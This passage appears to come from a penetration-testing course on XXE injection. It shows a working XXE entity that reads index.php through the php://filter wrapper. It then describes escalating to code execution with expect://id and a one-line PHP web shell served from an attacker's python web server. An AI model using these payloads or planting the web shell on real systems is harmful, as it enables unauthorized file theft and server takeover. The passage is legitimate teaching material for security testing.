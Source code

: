 ![file_php](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg)

As we can see, this did not work, as we did not get any content. This happened because`the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`. If a file contains some of XML's special characters (e.g.`<`/`>`/`&`), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

Luckily, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using`file://` as our reference, we will use PHP's`php://filter/` wrapper. With this filter, we can specify the`convert.base64-encode` encoder as our filter, and then add an input resource (e.g.`resource=index.php`), as follows:


```xml
<!DOCTYPE email [
 <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

With that, we can send our request, and we will get the base64 encoded string of the`index.php` file:

![file_php](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)

We can select the base64 string, click on Burp's Inspector tab (on the right pane), and it will show us the decoded file. For more on PHP filters, you can refer to the [File Inclusion / Directory Traversal](https://academy.hackthebox.com/module/details/23) module.

`This trick only works with PHP web applications.` The next section will discuss a more advanced method for reading source code, which should work with any web framework.

---

## Remote Code Execution with XXE

In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for`ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the`PHP://expect` filter, though this requires the PHP`expect` module to be installed and enabled.

If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as`expect://id`, and the page should print the command output. However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
smoothment@htb[/htb]$ sudo python3 -m http.server 80
```
